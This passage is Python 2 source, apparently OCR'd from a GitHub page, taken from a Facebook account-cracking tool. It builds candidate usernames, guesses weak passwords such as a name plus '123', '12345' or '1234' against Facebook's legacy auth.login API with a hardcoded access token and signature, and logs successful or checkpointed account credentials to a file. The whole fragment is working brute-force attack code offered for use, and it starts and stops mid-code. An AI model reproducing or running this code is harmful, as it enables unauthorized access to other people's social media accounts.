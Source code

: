	else:
		print "[!] Fill in correctly"
		crack_action()
	xxx = str(len(id))
	psb ('[✓] Please wait, process is running ...')
	time.sleep(0.5)
	psb ('[!] To Stop Process Press CTRL Then Press z')
	time.sleep(0.5)
	print 50*"-"
	print
	
			
	def main(arg):
		global cpb,oks
		user = k+arg+ac
		try:
			pass1=kn+"123"
			data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			q = json.loads(data.text)
			if '407' in q['error_msg']:
				print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass1
				oks.append(user+pass1)
			else:
				if '405' in q["error_msg"]:
					print '[Checkpoint] ' + user + ' | ' + pass1
					cps = open("save/checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					pass2 = kn+'12345'
					data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
					q = json.loads(data.text)
					if '407' in q['error_msg']:
						print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass2
						oks.append(user+pass2)
					else:
						if '405' in q["error_msg"]:
							print '[Checkpoint] ' + user + ' | ' + pass2
							cps = open("save/checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
						else:
							pass3 = kn + "1234"
							data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
							q = json.loads(data.text)
							if '407' in q['error_msg']:
								print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass3
								oks.append(user+pass3)
							else:
								if '405' in q["error_msg"]:
									print '[Checkpoint] ' + user + ' | ' + pass3
									cps = open("save/checkpoint.txt", "a")
									cps.write(user+"|"+pass3+"\n")
									cps.close()
									cpb.append(user+pass3)
								else: